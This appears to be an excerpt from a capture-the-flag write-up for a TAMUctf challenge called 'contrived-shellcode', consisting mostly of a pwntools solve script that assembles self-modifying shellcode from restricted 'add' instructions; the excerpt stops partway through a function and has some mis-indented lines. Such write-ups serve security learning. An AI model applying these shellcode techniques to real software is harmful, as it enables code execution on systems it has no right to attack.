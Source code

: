 Our final solve script follows:

```python  
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]  
e = context.binary = ELF(binary, checksec=False)

gs = '''  
break *$rebase(0x1293)  
continue  
'''

def start():  
   if args.GDB:  
       return gdb.debug(e.path, gdbscript=gs)  
   elif args.REMOTE:  
       return remote("tamuctf.com", 443, ssl=True, sni="contrived-shellcode")  
   else:  
       return process(e.path)

p = start()

def pop_rsi():  
   # pop rsi = 0x5e  
   # 0x5e = 0xf*6+0x4  
   rsi_pop = asm('add al, 0xf')*6  
   rsi_pop += asm('add al, 0x4')  
   rsi_pop += asm('add dword ptr [rip], eax')  
   rsi_pop += b'\x00'*1  
   rsi_pop += asm('add dword ptr [rip], eax')  
   rsi_pop += b'\x00'*1  
   rsi_pop += asm('add dword ptr [rip], eax')  
   rsi_pop += b'\x00'*1  
log.info('> (pop rsi)*3 shellcode : (%i bytes)' % len(rsi_pop))  
   return rsi_pop

def zero_edi():  
   # mov rdi = 0xbf  
   # (0xbf=0xba+0x5)  
   edi_zero = asm('add al, 0xf')*6  
   edi_zero += asm('add al, 0x7')  
   edi_zero += asm('add dword ptr [rip], eax')  
   edi_zero += b'\x00'*5  
log.info('> (mov edi, 0x0) shellcode : (%i bytes)' % len(edi_zero))  
   return edi_zero

def big_edx():  
   # 0:   ba fb 01 00 00          mov    edx, 0x1fb'  
   # (0x1fbfba=0xbf+0xf0e0f+0xf*15+0xb)  
   edx_big = asm('add eax, 0xf0e0f')  
   edx_big += asm('add al,0xf')*15  
   edx_big += asm('add al, 0xb')  
   edx_big += asm('add dword ptr [rip], eax')  
   edx_big += b'\x00'*5  
log.info('> (mov edx, 0x1fb) shellcode : (%i bytes)' % len(edx_big))  
   return edx_big

def zero_rax():  
   # sub rax, rax  
   # 0:   48 29 c0                sub    rax, rax'  
   # 0xc02948=0x1fbba+0xf0f0f*11+0xb0f0f+0x0f0f*6+0x90f+0x30f+0xf*6+8  
```
